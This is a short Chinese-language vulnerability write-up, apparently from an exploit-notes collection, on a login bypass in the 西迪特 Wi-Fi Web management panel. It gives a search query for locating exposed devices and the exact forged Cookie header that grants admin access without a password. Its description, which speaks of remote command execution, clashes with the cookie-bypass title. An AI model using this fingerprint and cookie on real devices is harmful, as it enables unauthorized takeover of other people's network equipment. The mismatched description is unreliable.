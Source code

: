 # 

# 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## 网络测绘

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](./images/202205191839372.png)

添加Cookie，即可登录后台

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![image-20220519184113756](./images/202205191841849.png)
